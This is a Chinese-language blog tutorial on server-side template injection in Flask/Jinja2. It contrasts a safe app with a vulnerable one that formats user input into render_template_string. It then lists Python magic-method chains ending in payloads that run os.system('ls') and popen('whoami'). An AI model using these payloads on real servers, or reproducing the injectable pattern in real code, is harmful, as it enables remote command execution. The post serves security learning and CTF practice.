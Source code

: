```yaml
---
layout: post
title: 2020-12-07-SSTI模板注入与Flask基础（略带沙箱逃逸）
date: 2020-12-07
categories: blog
tags: [web,php]
description: 学习Flask模板注入了
typora-copy-images-to: ..\img
typora-root-url: ..
---
```


# SSTI模板注入与Flask基础

### Flask简介

Flask是一个Python上的**Web应用程序框架**（Web Application Framework）。

**Web应用程序框架**是一个库和模块的集合，使Web应用程序开发人员能够编写Web应用程序，而不必担心协议，线程管理等低级细节。



Flask基于**Werkzeug WSGI**工具包和**Jinja2**模板引擎。

> ##### Werkzeug
>
> 它是一个WSGI工具包，它实现了请求，响应对象和实用函数。 这使得能够在其上构建web框架。 Flask框架使用Werkzeug作为其基础之一。
>
> ##### jinja2
>
> jinja2是Python的一个流行的模板引擎。Web模板系统将模板与特定数据源组合以呈现动态网页。
>
> Flask通常被称为微框架。 它旨在保持应用程序的核心简单且可扩展。Flask没有用于数据库处理的内置抽象层，也没有形成验证支持。相反，Flask支持扩展以向应用程序添加此类功能。

**Jinjia模板引擎特点**

![img](/img/jinja2语法.png)

**控制语句**

![image-20201222222445589](/img/image-20201222222445589.png)

 **注意：不可以使用`continue`和`break`表达式来控制循环的执行。**

**过滤器**

过滤器是通过（`|`）符号进行使用的，例如：`{{ name|length }}：`将返回name的长度。

过滤器相当于是一个函数，把当前的变量传入到过滤器中，然后过滤器根据自己的功能，再返回相应的值，之后再将结果渲染到页面中。

## SSTi漏洞的产生

ssti漏洞产生于网页模板中的变量被二次渲染时。

什么是二次渲染，这里用两个例子简单展示：

无二次渲染：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html='<h1>Welcome</h1></br><p>{{str}}</p>'
    return render_template_string(html,str=str)
if __name__=='__main__':
    app.run()
```

有二次渲染行为：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html="<h1>Welcome</h1></br><p>%s</p>"%(str)
    return render_template_string(html)
if __name__=="__main__":
    app.run()
```

如果在页面中找到了这样一个ssti漏洞，便意味着我们能够在这个注入点执行该模板引擎的控制语句以及命令

Flask SSTI 题的基本思路就是利用 python 中的 **魔术方法** 找到自己要用的函数。

```
__dict__：保存类实例或对象实例的属性变量键值对字典

__class__：返回调用的参数类型

__mro__：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。 

__base__: 返回该对象所继承的基类

__bases__：返回该对象所继承的类型列表

__subclasses__：以一个列表的形式返回对象的子类

__init__：类的初始化方法

__globals__：函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
```

基本步骤：

使用魔术方法进行函数解析，再获取基本类：

```python
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

获取基本类后，继续向下获取基本类 object 的子类：

```python
object.__subclasses__()
```

这里有可能子类中就含有可以利用的函数，如file,eval等，但是一般是没有的

可以用以下模板控制语句找找看

![image-20201222222642704](/img/image-20201222222642704.png)

找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

```python
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

或者用模板控制语句找到可以利用的模块，或者__builtins__

![image-20201222222733823](/img/image-20201222222733823.png)



构造payload

```
''.__class__.__base__.__subclasses__()[59]

''.__class__.__base__.__subclasses__()[81].__init__.__globals__['__builtins__']

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')

''.__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("whoami").read()')
```

